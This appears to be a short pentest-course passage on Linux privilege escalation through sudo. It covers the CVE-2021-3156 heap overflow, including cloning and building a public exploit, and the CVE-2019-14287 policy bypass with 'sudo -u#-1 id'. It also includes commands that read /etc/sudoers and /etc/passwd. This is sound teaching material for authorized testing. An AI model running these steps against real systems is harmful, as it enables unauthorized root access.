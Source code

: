 ```shell
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

One of the latest vulnerabilities for `sudo` carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- and others

```shell
sudo -V | head -n1
```

```shell
git clone https://github.com/blasty/CVE-2021-3156.git
```

```shell
cd CVE-2021-3156
```

```shell
make
```

```shell
cat /etc/lsb-release
```

---
## Sudo Policy Bypass

Another vulnerability was found in 2019 that affected all versions below `1.8.28`, which allowed privileges to escalate even with a simple command. This vulnerability has the [CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) and requires only a single prerequisite. It had to allow a user in the `/etc/sudoers` file to execute a specific command.

```shell
sudo -l
```

In fact, `Sudo` also allows commands with specific user IDs to be executed, which executes the command with the user's privileges carrying the specified ID. The ID of the specific user can be read from the `/etc/passwd` file.

```shell
cat /etc/passwd | grep cry0l1t3
```

```shell
sudo -u#-1 id
```




